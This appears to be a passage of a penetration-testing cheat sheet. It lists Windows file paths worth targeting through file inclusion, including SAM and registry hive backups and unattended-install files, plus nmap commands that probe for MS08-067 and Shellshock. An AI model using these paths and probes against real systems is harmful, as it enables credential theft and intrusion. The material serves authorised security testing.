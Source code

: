 ```bash
C:/Program Files/MySQL/MySQL Server 5.0/data/mysql-bin.log
C:/Program Files/MySQL/MySQL Server 5.0/data/mysql.err
C:/Program Files/MySQL/MySQL Server 5.0/data/mysql.log
C:/Program Files/MySQL/MySQL Server 5.0/my.cnf
C:/Program Files/MySQL/MySQL Server 5.0/my.ini
C:/Program Files (x86)/Apache Group/Apache2/conf/httpd.conf
C:/Program Files (x86)/Apache Group/Apache/conf/httpd.conf
C:/Program Files (x86)/Apache Group/Apache/conf/access.log
C:/Program Files (x86)/Apache Group/Apache/conf/error.log
C:/Program Files (x86)/FileZilla Server/FileZilla Server.xml
C:/Program Files (x86)/xampp/apache/conf/httpd.conf
C:/WINDOWS/php.ini
C:/WINDOWS/Repair/SAM
C:/Windows/repair/system
C:/Windows/repair/software
C:/Windows/repair/security
C:/WINDOWS/System32/drivers/etc/hosts
C:/Windows/win.ini
C:/WINNT/php.ini
C:/WINNT/win.ini
C:/xampp/apache/bin/php.ini
C:/xampp/apache/logs/access.log
C:/xampp/apache/logs/error.log
C:/Windows/Panther/Unattend/Unattended.xml
C:/Windows/Panther/Unattended.xml
C:/Windows/debug/NetSetup.log
C:/Windows/system32/config/AppEvent.Evt
C:/Windows/system32/config/SecEvent.Evt
C:/Windows/system32/config/default.sav
C:/Windows/system32/config/security.sav
C:/Windows/system32/config/software.sav
C:/Windows/system32/config/system.sav
C:/Windows/system32/config/regback/default
C:/Windows/system32/config/regback/sam
C:/Windows/system32/config/regback/security
C:/Windows/system32/config/regback/system
C:/Windows/system32/config/regback/software
C:/Program Files/MySQL/MySQL Server 5.1/my.ini
C:/Windows/System32/inetsrv/config/schema/ASPNET_schema.xml
C:/Windows/System32/inetsrv/config/applicationHost.config
C:/inetpub/logs/LogFiles/W3SVC1/u_ex[YYMMDD].log
```

## Useful NSE scripts
```bash
#smb-vuln-ms08-067
nmap --script-args=unsafe=1 --script smb-vuln-ms08-067.nse -p 445 <host>

#http-shellshock
nmap -sV -p- --script http-shellshock --script-args uri=/cgi-bin/{location},cmd=ls <target>
```
